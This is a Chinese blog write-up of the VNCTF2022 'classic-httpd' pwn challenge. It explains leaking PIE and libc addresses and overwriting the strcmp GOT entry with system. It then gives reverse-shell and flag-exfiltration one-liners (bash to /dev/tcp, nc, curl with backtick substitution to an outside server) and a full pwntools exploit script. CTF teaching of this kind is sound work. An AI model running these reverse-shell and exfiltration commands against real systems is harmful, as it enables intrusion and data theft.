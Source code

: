 ```yaml
---
layout: article
pageview: true
key: 2022-03-07-vnctf2022-httpd
title: VNCTF2022Pwn题WP
author: Ch4rc0al
categories: 
    - WriteUps
tags: 
    - CTF
    - Pwn
---
```


通过`classic-httpd`学习入门`httpd-pwn`
<!--more-->

## classic-httpd

题目是64位elf，保护为`Partial RELO`，意味着`got`表可写，其他保护全开。
### 初步分析
一般httpd程序的执行流程为
1. 在main函数中用pthread或fork来进入HTTP请求处理函数
2. 在HTTP请求处理函数中，过滤掉不合法的请求协议（通常只接受GET/POST）和请求目录（通常过滤掉含有".."的url，使我们不能访问`xxx.com/../flag` 来直接读取flag）
3. 根据请求url，跳转到对应的cgi函数或文件读取函数

程序只有3个可以访问的路径，`/htdocs/index.html`、`/htdocs/welcome.cgi`、`/htdocs/submit.cgi`，前两个路径都只会返回`/htdocs/index.html`文件内容，我们重点分析第三个cgi

![](https://md.buptmerak.cn/uploads/upload_060cbb11e92d60deb961e641ed7bf0ee.png)
经过逆向，我们发现`submit.cgi`以`GET`方式接受一个`base64`加密后的字符串，字符串原文必须类似以下结构
```c 
int num;
struct payload
{
    int code;
    int arg[6];

}payloads[8];
```
结构体中`code`决定走向哪一个功能分支，我们发现有输出功能、泄露制定地址功能、任意地址内容泄露功能、任意地址写功能以及一个输出功能，并且功能的使用顺序有一定的限制。
### 利用思路
我们先创建`/htdocs/index.html`来保证程序能够正常运行。
不难想到通过指定地址泄露功能来拿到`pie`地址，再通过任意地址内容泄露功能打印出`got`表内容来泄露`libc`基地址，如果为传统pwn，我们就可以任意地址写修改`hook`为`one_gadget`或修改`got`表来运行`system("cat flag")`拿flag走人，但别忘了在httpd-pwn中，我们与程序的交互有`socket`的隔阂，我们只能获取到程序通过`socket`发送的内容，程序的输出对我们来说并不可见。
### 反弹flag方法
既然我们在`socket`语境下，那我们也用`socket`的方法解决问题。
首先我们需要控制程序流，我们注意到在输出功能中有一个`strcmp`函数以用户输入的字符串为参数，那我们就可以修改其为`system`函数来执行命令，我们就可以尝试反弹shell、反弹flag、写flag进文件的方法了。

- 反弹shell
    1. 首先我们需要一台公网服务器，其ip假定为 1.1.1.1，我们登录服务器并运行命令`nc -lvp 4444`
    2. 在受害者的电脑上运行命令`bash -i >& /dev/tcp/1.1.1.1/4444 0>&1`，在此题语境下为执行`system("bash -i >& /dev/tcp/1.1.1.1/4444 0>&1");`（下略）
    3. 我们可以看到服务器上出现了受害者的shell，cat flag即可

- 反弹flag到nc
    1. 我们需要一台公网服务器，其ip假定为 1.1.1.1，我们登录服务器并运行命令`nc -lvp 4444`
    2. 在受害者的电脑上运行命令`cat flag > nc 1.1.1.1 4444`
    3. 服务器上接收到flag

- 反弹flag到http服务器
    1. 我们依然需要一台公网服务器并有一个http服务器运行在80端口，ip假定为 1.1.1.1
    2. 执行 
            ``curl http://1.1.1.1/`cat flag` `` （注意命令中的反引号）

    3. 登录服务器，查看日志，获取flag
    ![](https://md.buptmerak.cn/uploads/upload_338c549a596c7b26f76193d8b6421cfd.png)

- 写flag到文件
    1. 直接执行`cat flag > /htdocs/index.html`
    2. 正常访问`/htdocs/index.html`即可
程序在docker环境里一般没有写权限，所以这种方法成功率并不高

利用命令执行拿flag的方法还有很多，这里就不一一细举了，具体使用需要依赖题目环境等，希望能对刚刚接触http-pwn的读者有所启发。

### 完整exploit

```python-repl=
from pwn import *
import base64
import requests
context(arch='amd64',os='linux',log_level='debug')

elf=ELF('./httpd')
libc=ELF('./glibc-all-in-one/libs/2.31-0ubuntu9_amd64/libc-2.31.so')

url='http://localhost:4000/submit.cgi'

def make(con):
    return base64.b64encode(con)

payload=p32(1)+p32(102)+p32(0)
s=requests.get(url,params=make(payload))
res=s.text
print(res)
pie=int(res[27:39],16)-0x4008
print("[+]pie->"+hex(pie))

payload=p32(1)+p32(136)+p64(pie+elf.got['printf'])+p64(0)
s=requests.get(url,params=make(payload))
res=s.text
print(res)

libc_base=int(res[40:52],16)-libc.sym['printf']

print("[+]libc_base->"+hex(libc_base))

shell=b'curl http://xx.xx/`cat flag`'
payload=p32(2)+p32(241)+p64(pie+elf.got['strcmp'])+p64(0)+p64(libc_base+libc.sym['system'])+p32(34)+shell
s=requests.get(url,params=make(payload))
res=s.text
print(res)

```

### Tips
泄露远程libc版本后，可以使用[glibc-all-in-one](https://github.com/matrix1001/glibc-all-in-one)下载带符号表的`libc`文件帮助调试。